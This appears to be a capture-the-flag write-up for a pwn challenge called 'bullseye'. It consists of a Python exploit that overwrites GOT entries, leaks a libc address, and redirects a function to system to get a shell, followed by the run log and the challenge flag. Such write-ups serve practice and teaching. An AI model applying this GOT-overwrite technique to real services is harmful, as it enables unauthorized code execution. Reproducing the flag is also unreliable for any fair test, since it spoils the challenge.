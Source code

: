```r
from roppy import *
from time import sleep

# flag{one_write_two_write_good_write_bad_write}

HOST = "jh2i.com"
PORT = 50031


libc = ELF("libc6_2.30-0ubuntu2.1_amd64.so")
exit_got  = "0x404058"
sleep_got = "0x404060"
main      = "0x401260"
read_got  = "0x404038"

p = remote(HOST, PORT)

def send_data(where, what):
        p.sendlineafter("?\n", where)
        p.sendlineafter("?\n", what)


send_data(exit_got, main)
sleep(0xf)
alarm = int(p.recvline().strip(b"\n"), 16)
log.info("alarm:  0x%x" %(alarm))
libc.address = alarm - libc.function("alarm")
log.info("LIBC  :  0x%x" %(libc.address))
log.info("system:  0x%x" %(libc.function("system")))
send_data(sleep_got, main)

send_data("0x404040", hex(libc.function("system")))

p.interactive()
```

Running the exploit:-

```r
0 [07:40:13] vagrant@oracle(oracle) pwn> python3 bullseye.py 
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/libc6_2.30-0ubuntu2.1_amd64.so
[+] Opening connection to jh2i.com on port 50031: Done
[*] alarm:  0x7fbca7ea8be0
[*] LIBC  :  0x7fbca7dc3000
[*] system:  0x7fbca7e184e0
[*] Paused [Press any key to continue]
[*] Switching to interactive mode
You have one write, don't miss.

Where do you want to write to?
$ /bin/sh
$ cat flag.txt
flag{one_write_two_write_good_write_bad_write}
$ exit
sh: 2: �@: not found
What do you want to write?
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to jh2i.com port 50031
```
